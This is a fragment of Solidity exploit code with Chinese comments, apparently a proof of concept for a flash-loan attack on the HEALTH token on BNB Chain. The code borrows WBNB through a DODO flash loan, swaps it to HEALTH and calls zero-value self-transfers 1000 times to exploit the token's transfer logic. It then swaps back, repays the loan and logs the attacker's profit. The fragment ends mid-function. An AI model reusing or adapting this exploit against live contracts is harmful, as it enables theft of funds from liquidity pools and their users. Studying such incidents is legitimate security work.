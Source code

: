 ```

        console.log("WBNB owned before attack:", IERC20(WBNB).balanceOf(address(this)));

        // 调用闪电贷 40000000000000000000

        DPPAdvanced(FLOAN).flashLoan(40000000000000000000,0,address(this), "0x61");

        console.log("WBNB owned after attack:", IERC20(WBNB).balanceOf(address(this)));

  

    }

  

// 回调函数

    function DPPFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount, bytes calldata data) public {

  

        // 查看合约拥有多少WBNB

        uint256 loanWBNB = IERC20(WBNB).balanceOf(address(this));

        console.log("flashloan money :", loanWBNB);

  

        // 将WBNB兑换成HEALTH

        WBNBToHEALTH();

  

        // 循环执行transfer

        for(int i = 0; i < 1000; i++){

            IERC20(HEALTH).transfer(address(this), 0);

        }

  

        // 将HEALTH兑换成WBNB

        HEALTHTOWBNB();

  

        // 归还闪电贷

        IERC20(WBNB).transfer(FLOAN, loanWBNB);

    }

  

    function WBNBToHEALTH() internal {

        address[] memory path = new address[](2);
```